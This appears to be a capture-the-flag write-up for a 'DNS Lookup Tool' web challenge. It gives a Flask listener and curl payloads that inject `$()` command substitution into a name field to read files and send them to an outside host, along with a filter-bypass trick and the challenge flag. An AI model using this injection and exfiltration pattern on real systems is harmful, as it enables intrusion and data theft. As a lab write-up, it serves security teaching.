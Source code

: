 # DNS Lookup Tool: Final
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f415e3ed-1266-43e2-88fb-a1e6681cee27)

## Webpage
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

## 解題
讀 code 找到 blacklist

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/68686376-29a6-4bbc-bca0-3c63da797b1f)

發現 `$()` 沒檔，測一下

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

過了

## exploit
```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def root():
    print(request.stream.read().decode())
    return "com"

@app.route('/<path:data>',methods=['GET'])
def run(data):
    print(data)
    return "com"

if __name__ == "__main__":
    app.run(host="::", port=80)
```

## payload
```bash
curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(ls /)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /flag_SWeUMks9hGYFciax)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /$(echo f)lag_SWeUMks9hGYFciax)")'
```

## Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/481aad11-e682-4ccc-8333-a8f3f62d337e)

`AIS3{jUsT_3@$y_cOMmAnD_INJEc7ION}`
